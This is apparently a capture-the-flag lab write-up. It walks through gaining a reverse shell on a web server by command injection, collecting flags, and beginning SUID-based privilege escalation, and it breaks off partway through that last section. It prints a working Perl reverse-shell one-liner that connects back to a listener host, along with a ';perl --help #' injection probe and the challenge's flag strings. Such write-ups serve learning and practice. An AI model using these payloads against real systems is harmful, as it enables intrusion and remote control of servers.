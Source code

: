 #### Getting a shell

![ReverseShellOneLiner]
We can google for one liner reverse shell.
I personally like to use the perl reverse shell from pentestmonkey.

You can check if perl is on the machine via `;perl --help #` command injection

![SetupListener]
I find my own ip address and set up a simple netcat listener at port 4444.

```perl
perl -e 'use Socket;$i="10.0.2.13";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![ObtainedAShell]

By injecting the above perl command into the image url.
I successfully obtained a reverse shell from the webserver.

![webrootFlag]
Once I am inside, I proceed to explore the current home directory of the web root and found a hidden file called ".flag.txt"
`JDC2017{038b5b71bdc544ed9ea5e5ad03833cf696162e25}`

#### Search for more flags
![GrepForFlags]

I do a simple grep from the web root and found another flag in the source code of `./website/settings.py`
`JDC2017{69ed40d7f4df214b29630305f5fc7c51d69416ed}`

### Privilege Escalation

![CheckKernel]
Checking the kernel version via `uname` shows that the kernel version is very updated, 
meaning it is very difficult to find a kernel exploit to get root.

![SearchSUID]
Another way is by searching for SUID programs via find

We found an interesting program `/var/getdate`

![ThereisaSourceCode]
In the /var directory, the owner of `/var/getdate` is root and its permission is -rws for root. 
SUID program will run as the owner. Hence, if we can cause the program to spawn a shell, we get a root shell.
Conveniently, the programmer forgot to remove his source code getdate.c

